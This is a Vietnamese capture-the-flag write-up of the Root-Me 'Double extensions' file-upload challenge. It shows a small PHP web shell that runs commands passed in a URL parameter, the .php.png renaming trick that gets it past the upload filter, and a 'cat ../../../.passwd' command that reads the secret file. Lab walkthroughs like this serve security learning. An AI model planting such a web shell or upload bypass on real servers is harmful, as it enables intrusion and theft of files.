

# File upload - Double extensions

[Link](http://challenge01.root-me.org/web-serveur/ch20/)


- Mở đầu trang là 1 đống page nhỏ lẻ, thôi thì đề nói là `File upload` nên qua page `upload` coi thôi :v


- Có 1 **form upload file** ở đây, thử upload lên 1 file ảnh bình thường mà đề cho phép thử xem


- Upload hoạt động tốt, còn cho ta cả link để file ảnh để đâu luôn

- Thử viết 1 file `backdoor.php` rồi cố gắng gửi lên server xem sao:

```
<?php
    $flag = $_GET['flag'];
    system("$flag");
?>
``` 

- Tạo 1 file `backdoor.php` đơn giản như vậy là đủ. Biến `$flag` nhận query từ link dựa vào hàm `$_GET['flag']`, hàm `system` thực thi nó

- Đề đã viết rõ là **Double extensions**, thì bây giờ làm theo đề thôi. Thêm 1 extensions hợp vào file `backdoor.php` thành `backdoor.php.png`

- Đọc thêm về kỹ thuật **Double extensions** và các kỹ thuật khác: [Link](https://www.owasp.org/index.php/Unrestricted_File_Upload)

- Thử up file `backdoor.php.png` lên server và thành công như mong đợi




- Vấn đề là bây giờ có thể **injection** câu lệnh vào server thông qua file `backdoor.php.png` mới gửi lên được không. Th với lệnh đơn giản xem nào
`?flag=id`


- Thành công mỹ mãn. OK, hint đề cho là:

```
Your goal is to hack this photo galery by uploading PHP code.
Retrieve the validation password in the file .passwd at the root of the application.
```

- Ta đã thành công bước đầu, bước sau đề nói rằng **password** nằm trong file `.passwd`

- Thử `cat .passwd` hoặc `cat ../.passwd` hoặc ... xem nào. Cuối cùng cũng thành công với payload:

```
cat ../../../.passwd
```


